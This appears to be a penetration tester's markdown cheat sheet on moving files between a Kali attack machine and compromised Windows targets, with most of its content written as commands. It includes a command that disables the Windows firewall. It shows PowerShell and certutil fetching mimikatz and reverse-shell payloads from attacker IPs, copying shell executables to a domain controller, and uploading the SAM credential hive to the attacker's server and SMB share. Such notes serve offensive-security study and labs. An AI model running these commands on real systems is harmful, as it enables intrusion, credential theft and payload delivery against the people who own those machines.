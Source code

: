 ```yaml
---
description: >-
  ls -la drwxrwxrwt (/usr/tmp ; /tmp ; /var/tmp) disable firewall: netsh
  firewall set opmode disable
---
```


# File transfer

```
rwx = 111 = 7
rw- = 110 = 6
r-x = 101 = 5
r-- = 100 = 4
-wx = 011 = 3
-w- = 010 = 2
--x = 001 = 1
```

#### SSH

Receiving: `service ssh start`

Sending: `scp {path of file to sd} {myuser}@{myip}:{saving path}` | `yes` | `{pwd}`

#### FTP `-a active mode`

Receiving: `get {remotefile} ({localfilename})`

Sending (ftp to taget from kali): `put {localfile} ({remotefilename})`

Limited-interaction transfer - kali `service pure-ftpd start`:

```
echo open {kali ip} 21> ftp.txt
echo USER kali >> ftp.txt
echo kaliftppwd(kali) >> ftp.txt
echo bin >> ftp.txt
echo GET/PUT the.file >> ftp.txt
echo bye >> ftp.txt
```

(GET from kali home ; PUT to /ftphome/)&#x20;

```
ftp -v -n -s:ftp.txt
```

#### HTTP

Serving (on working dir): `python -m http.server 80`

Downloading (on working dir): `wget {downloadip:80}/{file}` (-O)

&#x20;                                                  `curl {downloadip:80/filepath} > {savepath}`

#### Powershell

{% code overflow="wrap" %}
```
powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.156/mimikatz64.exe','C:/tmp/mimikatz.exe')
```
{% endcode %}

```
IWR -Uri http://192.168.45.5/file -OutFile C:\Users\Public\file
```

AD

{% code overflow="wrap" %}
```
copy C:\temp\rev.exe \\DC01\C$\tmp\rev.exe 
```
{% endcode %}

```
$dcs = NEW-PSSession -Computer SANDBOXDC
Invoke-Command -Session $dcs -ScriptBlock {ipconfig}
(validate we can exec cmd to DC remotely)

Copy-Item "C:\Users\Public\shell.exe" -Destination "C:\Users\Public\" -ToSession $dcs
```

#### Netcat

Serving: `nc -nlvp < file`

Getting: `nc -nv {ip} > file`

#### Powershell to kali `service apache2 start` `/var/www/uploads`

<pre data-overflow="wrap"><code><strong>powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.119.156/upload.php', 'C:\Users\Alice\Desktop\tmp\SAM')
</strong></code></pre>

#### Windows certutil.exe download

{% code overflow="wrap" %}
```

certutil.exe -urlcache -f http://IP/rev.jsp (C:\xampp\tomcat\webapps\rev.jsp)
```
{% endcode %}

#### smb

<pre><code><strong>
</strong><strong>sudo impacket-smbserver -ip 0.0.0.0 -port 445 smb $(pwd) -smb2support
</strong>
net view \\192.168.45.5\smb
dir \\192.168.45.5\smb

#get
copy \\192.168.45.5\smb\file .

#put
copy .\SAM \\192.168.45.5\share


may direct exec file in windows: \\192.168.45.5\smb\shell.exe
</code></pre>

{% embed url="https://blog.ropnop.com/transferring-files-from-kali-to-windows/#smb" %}

### xfreerdp drive share (or just host on http ser and browse to download)

{% embed url="https://www.mankier.com/1/xfreerdp" %}

{% embed url="https://miloserdov.org/?p=4516" %}
